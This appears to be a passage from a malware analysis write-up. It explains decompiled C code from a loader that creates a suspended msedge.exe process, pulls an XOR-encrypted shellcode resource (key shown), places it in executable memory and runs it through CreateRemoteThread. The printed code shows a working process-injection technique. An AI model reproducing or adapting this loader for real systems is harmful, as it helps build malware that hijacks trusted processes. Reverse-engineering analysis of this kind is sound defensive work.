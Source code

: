 Create process `msedge.exe` with **SUSPENDED** status, `0x00000004` is `CREATE_SUSPENDED` flag, which means the process is created but its primary thread is not yet running, probally for shellcode injection.

```c=
  {
    phModule = 0LL;
    LODWORD(ResourceW) = GetModuleHandleExW(4u, sub_7FFED6511000, &phModule);
    if ( ResourceW )
    {
      ResourceW = FindResourceW(phModule, 0x65, L"SHELL");
      v1 = ResourceW;
      if ( ResourceW )
      {
        v2 = SizeofResource(phModule, ResourceW);
        Resource = LoadResource(phModule, v1);
        ResourceW = LockResource(Resource);
        v4 = ResourceW;
        if ( ResourceW )
        {
          if ( v2 )
          {
            v5 = v2;
            ResourceW = VirtualAlloc(0LL, v2, 0x1000u, 0x40u);
            v6 = ResourceW;
            if ( ResourceW )
            {
              sub_7FFED651D400(ResourceW, v4, v2);
              v7 = 0;
              v8 = v6;
              do
              {
                v8 = (v8 + 1);
                v9 = v7++ & 0xF;
                *(v8 - 1) ^= aX7qp9zlma2vtej[v9];
              }
```
Get current module using `GetModuleHandleExW()`, locate shellcode using `FindResourceW()` with `ID=0x65` and `TYPE=SHELL`. Then load shellcode using `LoadResource()`, allocated the memory for the shellcode by using `VirtualAlloc`, the loaded shellcode will be XOR with a 16-byte key `aX7qp9zlma2vtej`
![image](https://hackmd.io/_uploads/BkisF-mIxe.png)

```c=
                       &NumberOfBytesWritten);
                if ( ResourceW )
                {
                  ResourceW = CreateRemoteThread(ProcessInformation.hProcess, 0LL, 0LL, v10, 0LL, 0, 0LL);
                  v11 = ResourceW;
                  if ( ResourceW )
                  {
                    ExitCode = 0;
                    GetExitCodeThread(ResourceW, &ExitCode);
                    CloseHandle(v11);
                    CloseHandle(ProcessInformation.hThread);
                    CloseHandle(ProcessInformation.hProcess);
                    LODWORD(ResourceW) = VirtualFree(v6, 0LL, 0x8000u);
```
The shellcode is executed within msedge.exe using `CreateRemoteThread()`. After execution, the handle is closed using `CloseHandle()`, and the allocated memory is freed with `VirtualFree()`.
